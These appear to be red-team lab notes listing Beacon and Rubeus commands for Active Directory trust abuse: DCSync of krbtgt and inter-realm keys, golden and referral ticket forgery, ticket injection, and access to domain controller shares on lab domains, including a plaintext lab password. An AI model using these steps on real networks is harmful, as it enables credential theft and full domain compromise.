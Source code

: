 
### Child to Parent Abuse

- Enumerate the type of trust in place.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName`
    
-  Obtain the AES256 hash for the child domain's krbtgt account.
    
    1. dcsync dublin.contoso.com DUBLIN\krbtgt
-  Obtain the domain SID for _dublin.contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid
-  Obtain the domain SID for _contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
-  On the Attacker Desktop, forge a golden ticket and output to a file.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[DUBLIN SID] /sids:[CONTOSO EA GROUP SID] /aes256:[DUBLIN KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden`
    
-  Inject the ticket into Beacon.
    
    BeaconTypeCopy
    
    `kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]`
    
-  Verify the ticket is in the session.
    
    1.  run klist
-  Access the parent domain's domain controller.
    
    1. ls \\lon-dc-1\c$

### Inbound Trust 
- Enumerate the one-way trust.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname`
    
-  Enumerate the Foreign Security Principals Container.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com`
    
-  Identify an interesting SID.
    
    1. ldapsearch (objectSid=[SID])
-  DCSync the shared inter-realm key.
    
    1. make_token CONTOSO\dyork Passw0rd!
    2. dcsync contoso.com CONTOSO\PARTNER$
    3. rev2self
-  On the Attacker Desktop, forge a referral ticket.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:[NTLM HASH] /nowrap`
    
-  Use the forged ticket to request service tickets for the trusting domain.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /ticket:[TICKET] /nowrap`
    
-  Inject the service ticket into the current logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
    
-  Verify the ticket was injected.
    
    1. run klist
-  Access the service in the trusting domain.
    
    1. ls \\par-jmp-1.partner.com\c$